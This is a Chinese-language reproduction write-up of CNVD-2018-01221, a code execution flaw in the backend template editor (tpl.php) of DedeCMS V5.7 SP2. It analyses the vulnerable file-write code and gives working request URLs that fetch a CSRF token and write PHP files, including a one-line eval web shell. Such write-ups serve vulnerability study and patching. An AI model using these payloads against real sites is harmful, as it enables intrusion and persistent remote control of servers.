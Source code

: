 （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞
===================================================

一、漏洞简介
------------

DedeCMS V5.7
SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

二、漏洞影响
------------

三、复现过程
------------

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![](./.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId24.png)

### 代码分析

    (1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
    (2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
    (3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
       [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
       所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
    (4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
    (5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
    (6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
       导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

    http://0-sec.org/dede/tpl.php?action=upload

![](./.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId27.png)

然后查看网页源代码，找到token

![](./.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId28.png)

构造payload如下

    http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)

访问了成功写入

![](./.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId29.png)

访问写入的文件

    http://0-sec.org/include/taglib/（你上传的文件名）.lib.php

![](./.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId30.png)

也可以构造一句话木马payload

    http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929

![](./.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId31.png)
